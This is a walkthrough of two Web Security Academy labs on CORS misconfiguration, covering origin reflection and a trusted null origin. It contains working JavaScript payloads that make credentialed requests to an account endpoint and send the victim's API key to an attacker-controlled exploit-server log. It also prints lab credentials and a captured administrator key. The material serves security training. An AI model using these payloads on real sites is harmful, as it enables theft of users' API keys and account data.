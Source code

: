 # Some cases of Cross-origin resource sharing (CORS)

## 1. CORS vulnerability with basic origin reflection

Log on to the account with `username = wiener`, `password = peter`

Using Burp, the Proxy tab proceeds to search for the `/accountDetails` section where included response information about API key. Then `Send to repeater`.

Adding the Origin: `http:/random-website.com`, then click `send`

After adding Origin, we proceed to return to the website as `Go to exploit server`. Change the server body structure as follows:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Then click `Store` => `View exploit` => `Deliver exploit to victim` => `Access log`

Find the result having the `log?key' return and then insert it into `submit` filed.

## 2. CORS vulnerability with trusted null origin

Check intercept is off, then use Burp's browser to log in to your account. Click "My account".

Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

Send the request to Burp Repeater, and resubmit it with the added header `Origin: null`.

Observe that the "null" origin is reflected in the Access-Control-Allow-Origin header.

In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with the URL for your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with the exploit server ID:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Notice the use of an iframe sandbox as this generates a null origin request.

Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.

Go back to the exploit server and click "Deliver exploit to victim".

Click "Access log", retrieve and submit the victim's API key to complete the lab.

And the API's key of administrator is `Q3RFRsyrZ14aNYyS7GkyUj5UcMQXQsyJ`
